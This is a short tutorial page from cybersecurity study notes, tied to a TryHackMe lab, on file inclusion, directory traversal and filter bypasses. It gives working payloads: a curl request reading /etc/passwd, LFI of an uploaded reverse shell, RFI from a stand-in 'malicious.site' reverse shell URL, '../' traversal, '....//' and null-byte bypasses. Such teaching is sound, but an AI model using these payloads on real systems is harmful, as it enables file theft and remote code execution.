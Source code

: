 # Files/Paths exploits

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Warning ⚠️. You should use tools such as BurpSuite or `curl` to craft your payload and test if a form is vulnerable. You shouldn't trust that if you enter the path `/etc/passwd`, then this will be value send to the server, some magic might happen in your browser, such as values being encoded or stuff like that.

Another advantage is that you will bypass JavaScript filters!
</div><div>

* See [BurpSuite](/cybersecurity/exploitation/web/burpsuite/index.md) (the repeater being appropriate)
* or using `curl`

```bash
# POST FORM
$ curl URL/vulnerable.php -d 'file=/etc/passwd' -H 'Content-Type: application/x-www-form-urlencoded'
```
</div></div>

<hr class="sep-both">

## File inclusion

<div class="row row-cols-md-2"><div>

Files inclusion refer to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing a include using `$_GET["lang"]`.

If there is an include with no filtering, we can enter a path 

```php
include "lang/$_GET[lang].php"
```
</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (a fake PNG)
// as your avatar (avatar.png), then
include "lang/../uploads/avatar.png"
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sep-both">

## Path/directory traversal

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd` or `windows/win.ini`
* ...
</div><div>

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.

You can use the **dot-dot-slash attack**, and give an URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.
</div></div>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-md-2 mt-4"><div>

* If there is a function removing `../`, then you can craft a payload that will only work as expected once the input was filtered.

```
Input: ....//
Apply Filter: remove ../
Output: ../
```
</div><div>

* **PHP < 5.3.4**: if there was a constraint of a specific extension, you could use the **Null Byte** `%00` which indicates the end of a string.

```php
# bypass filter .md only
file=xxx.php%00.md
```

```php
include "xxx.cgi%00.php" // include xxx.cgi
```
</div></div>